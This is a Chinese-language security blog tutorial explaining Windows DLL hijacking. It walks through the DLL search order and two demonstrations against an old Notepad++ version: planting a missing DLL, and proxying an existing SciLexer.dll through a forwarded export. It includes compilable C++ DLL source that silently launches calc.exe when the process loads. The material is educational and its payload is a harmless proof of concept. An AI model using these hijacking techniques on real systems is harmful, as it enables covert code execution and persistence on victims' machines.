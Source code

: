 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/Dus6Ml7GXZ8AWIF7E90VQg)

**什么是 dll**

DLL（Dynamic Link Library），全称动态链接库，是 Windows 系统上程序正常运⾏必不可少的功 能模块，是实现代码重⽤的具体形式。简单的说，可以把 DLL 理解成帮助程序完成各种功能的组件。DLL 劫持漏洞（DLL Hijacking Exploit），严格点说，它是通过⼀些⼿段来劫持或者替换正常的 DLL，欺 骗正常程序加载预先准备好的恶意 DLL 的⼀类漏洞的统称。利⽤ DLL 劫持漏洞，病毒⽊⻢可以随着⽂档的 打开（或者其他⼀些程序正常⾏为）⽽激活⾃身，进⽽获得系统的控制权。

**原理**

DLL 劫持漏洞之所以被称为漏洞，还要从负责加载 DLL 的系统 API LoadLibrary 来看。熟悉 Windows 代 码的同学都知道，调⽤ LoadLibrary 时可以使⽤ DLL 的相对路径。这时，系统会按照特定的顺序搜索⼀ 些⽬录，以确定 DLL 的完整路径。根据 MSDN ⽂档的约定，在使⽤相对路径调⽤ LoadLibrary （同样适 ⽤于其他同类 DLL LoadLibraryEx，ShellExecuteEx 等）时，系统会依次从以下 6 个位置去查找所需要的 DLL ⽂件（会根据 SafeDllSearchMode 配置⽽稍有不同）。

1.  程序所在⽬录。
    
2.  加载 DLL 时所在的当前⽬录。
    
3.  系统⽬录即 SYSTEM32 ⽬录。
    
4.  16 位系统⽬录即 SYSTEM ⽬录。
    
5.  Windows ⽬录。
    
6.  PATH 环境变量中列出的⽬录
    

dll 劫持就发⽣在系统按照顺序搜索这些特定⽬录时。只要⿊客能够将恶意的 DLL 放在优先于正 常 DLL 所在的⽬录，就能够欺骗系统优先加载恶意 DLL，来实现 “劫持”。

**通过 VS2019 生成一个 dll**

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9nnicYOnUw9Fs8teibtftwdxY05ib7aaPp0zxCIHqTuSdn64ib4lq1vhWGM2q0F6nQKutPITTqWmksmA/640?wx_fmt=png)

 ![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9nnicYOnUw9Fs8teibtftwdxB90frmqXDuT1Agv7v3fFUDgPbDcGLiaFUYiaNR1O5Oia3viahkd66UEDXA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9nnicYOnUw9Fs8teibtftwdxFqyxLkZuAtDmfBOibSSLanYib8GiaU8FODbGjdIywmGXiagu1ytbv7gG7w/640?wx_fmt=png)

**两种不同的劫持方式**

使用工具: ProcessMonitor  

下载地址:https://docs.microsoft.com/en-us/sysinternals/downloads/procmon

**一. 劫持源程序没有的 dll**

使用 ProcessMonitor 找到一个没有加载的 dll, 这里使用 notepad++ 测试

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9nnicYOnUw9Fs8teibtftwdxMekJmOUtatqFK8AFCLyIkLIke4Qjic9VVNP8iaictBREDiaSRMLKhFJLvw/640?wx_fmt=png)

 **添加过滤条件进程名为 notepad++**

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9nnicYOnUw9Fs8teibtftwdx34O2WOuc2icGPdRBd3xGAdkIKJlt0zicRmKbUEuQyJLP86ywnLl2hUsA/640?wx_fmt=png)

 **添加过滤条件路径为 E:\notepad++**

 ![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9nnicYOnUw9Fs8teibtftwdxWK1f3pffWTPKo6K8j17mMfH3ZWGcfRE2VAEJnzKDIs1U4dnGMoSd7Q/640?wx_fmt=png)

 **添加结果为 NAME NOT FOUND**

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9nnicYOnUw9Fs8teibtftwdxmpLr8Jicdyp6ZSicAqBKAIMAOQB8P9nYp2PPHVeFMBQtf52UkxgTyjRA/640?wx_fmt=png)

然后点击 ok

打开 notepad++

可以看到有很多 dll

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9nnicYOnUw9Fs8teibtftwdxRzQ0kP8p5XsKFicxBQJ3VmJUgVvEdTfOcCKmDofgJE6cRxdcU18WFPA/640?wx_fmt=png)

先双击 uxtheme.dll(**这里找一下, 找一个有 loadlibrary 相关的 API 的 dll，你的 notepad++ 可能没有这个 dll, 因为 notepad++ 版本有可能你的跟我的不一样**)，然后左键 stack

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9nnicYOnUw9Fs8teibtftwdxBOa1XASCS4Gmrz7cOib4PJvY4xujiabvXf4euBo1xCURX2RGP7lrPzvg/640?wx_fmt=png)

 找到 loadlibrary 相关的 API

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9nnicYOnUw9Fs8teibtftwdx8kHt1qVQ2x7otXE6rYp1XyXXJwGOOhABnXy9NLibC8V36xjP1bV5mSQ/640?wx_fmt=png)

 在 vs 中编写恶意 dll 源⽂件后编译, 把编译好的恶意 dll ⽂件名修改为需要劫持的 dll ⽂件名 后放⼊到 notepad++.exe 下的同级⽬录下（放在其他地方也可以, 只要在 dll 寻找目录中）：

```
// dllmain.cpp : 定义 DLL 应用程序的入口点。
#include "pch.h"


BOOL APIENTRY DllMain( HMODULE hModule,
DWORD  ul_reason_for_call,
LPVOID lpReserved
)
{
switch (ul_reason_for_call)
{
case DLL_PROCESS_ATTACH:
WinExec("calc.exe", SW_HIDE);
case DLL_THREAD_ATTACH:
case DLL_THREAD_DETACH:
case DLL_PROCESS_DETACH:
break;
}
return TRUE;
}
```

 当进程创建时就打开计算器

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9nnicYOnUw9Fs8teibtftwdxajUWQw0IibVSXGkO0Mlb3ib4iaAZL0zia9PiaExVoycb1NrJiaicdhbljSoXw/640?wx_fmt=png)

 我们双击启动 notepad++ 一下试试

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9nnicYOnUw9Fs8teibtftwdx6Qnh769XvShFDPVg0fcmiawbl67ZuN2KAqAQU7PNgEMezDkzHnXMD8Q/640?wx_fmt=png)

 成功弹出计算器, 执行了我们的恶意代码

**二. 劫持已经存在的 dll**

工具：CFF explorer  

下载地址:http://www.ntcore.com/files/ExplorerSuite.exe

1. 设置过滤条件如图, 过程跟刚刚差不多

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9nnicYOnUw9Fs8teibtftwdx5htlGoDvzvPn4EP2rDGxjsNic8dILkJfN30TjPDHfHJfKStD0KzyMQQ/640?wx_fmt=png)

 2. 打开 notepad.exe，查看监听器中有 dll ⽂件的事件详情：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9nnicYOnUw9Fs8teibtftwdxAMxLBYN7Q7AibjpAjXHeBADsygrd4wk9bZ5k2HJeHArXuicV87KRePoA/640?wx_fmt=png)

 3. 可以看到这个 dll ⽂件是 notepad++ 使⽤系统 API LoadLibrary 调⽤的，所以可以利⽤该点对程序进⾏ dll 劫持

找到这个 dll, 就在 notepad++ 相同目录下

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9nnicYOnUw9Fs8teibtftwdxb5PJcGDibSia7V22PZwAVmOe9DOG8RZUGk713EbicRbQ9N0xWfQNLVyhg/640?wx_fmt=png)

 4. 把这个 dll 拖入 CFF explorer 中

找到这个导出表

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9nnicYOnUw9Fs8teibtftwdxWHvS6iblUenKnVvwIUIr3JNVK8ydT2we82apiajHr9g8G5KAfm1icfCSQ/640?wx_fmt=png)

 他有一个导出函数

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9nnicYOnUw9Fs8teibtftwdxCicQGWRbglFMOdHjHxBVrveVB98emGfQUQXefD96AYbZ0OUEiaBQ1Ygw/640?wx_fmt=png)

5. 在 vs2019 中编写恶意 dll ⽂件后编译，将恶意 dll ⽂件名修改为所要劫持的 dll ⽂件名，将原 dll ⽂件名修改为恶意 dll ⽂件中所设置的⽂件名

```
#include "pch.h"
extern "C" __declspec(dllexport) void Scintilla_DirectFunction();
BOOL APIENTRY DllMain( HMODULE hModule,
DWORD  ul_reason_for_call,
LPVOID lpReserved
)
{
switch (ul_reason_for_call)
{
case DLL_PROCESS_ATTACH:
WinExec("calc.exe", SW_HIDE);
case DLL_THREAD_ATTACH:
case DLL_THREAD_DETACH:
case DLL_PROCESS_DETACH:
break;
}
return TRUE;
}
void Scintilla_DirectFunction()
{
MessageBox(NULL, L"hello", L"SD", NULL);
HINSTANCE hDll = LoadLibrary(L"SciLexer_org.dll");
if (hDll)
{
typedef DWORD(WINAPI* EXPFUNC)();
EXPFUNC expFunc = NULL;
expFunc = (EXPFUNC)GetProcAddress(hDll,"Scintilla_DirectFunction");
if (expFunc)
{
expFunc();
}
FreeLibrary(hDll);
}
return;
}
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9nnicYOnUw9Fs8teibtftwdxroHNSYJaicrW0kUpmBmkgWSZDgtnsyfzjW7AcKbapiapjy6YIGR60WbQ/640?wx_fmt=png)

 这里虽然报错但是还是弹出了计算机

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9nnicYOnUw9Fs8teibtftwdxSjDZNeDMSxMQ361sxJSoBsYfc1Bc1dImsfnBTxk3QGJdqBUEdk7w2w/640?wx_fmt=png)

**说明**

在 notepad++7.3.3 以后 notepad 官方已经修复这个漏洞, 再 7.3.3 版本以后每次运行 notepad++ 会先检查这个 dll 是否时原来的 dll, 这里如果要测试需要下载 7.3.3 以前的版本

本文仅供学习，切勿用于非法破坏！

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)

**推荐阅读：**

[**干货 | 如何快速完成 DLL 劫持，实现权限维持，重启上线**](http://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247493305&idx=1&sn=5b292ca23204c7c6adabaff3bc6d7edf&chksm=ec1cb386db6b3a90e08b077116175120e078e74697832f9455eb2dc7020334955b8642af8288&scene=21#wechat_redirect)  

[**科普 | DLL 劫持原理与实践**](http://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247487178&idx=1&sn=41916ea90c1503452ab68dcf435df470&chksm=ec1f5bf5db68d2e3ee81d150ac24fdf1145d33c700e1c49f1619e64050d8b104dc736b8d0c0d&scene=21#wechat_redirect)

本月报名可以参加抽奖送暗夜精灵 6Pro 笔记本电脑的优惠活动

[![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouibHHibNbEpsAMia19jkGuuz9tTIfiauo7fjdWicOTGhPibiat3Kt90m1icJc9VoX8KbdFsB6plzmBCTjGDibQ/640?wx_fmt=png)](http://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247496352&idx=1&sn=df6ddbf35ac56259299ce37681d56e5b&chksm=ec1ca79fdb6b2e8946f91d54722a7abb04f83111f9d348090167b804bc63b40d3efeb9beabbe&scene=21#wechat_redirect)

**点赞，转发，在看**

原创投稿作者：Buffer

![](https://mmbiz.qpic.cn/mmbiz_gif/Uq8QfeuvouibQiaEkicNSzLStibHWxDSDpKeBqxDe6QMdr7M5ld84NFX0Q5HoNEedaMZeibI6cKE55jiaLMf9APuY0pA/640?wx_fmt=gif)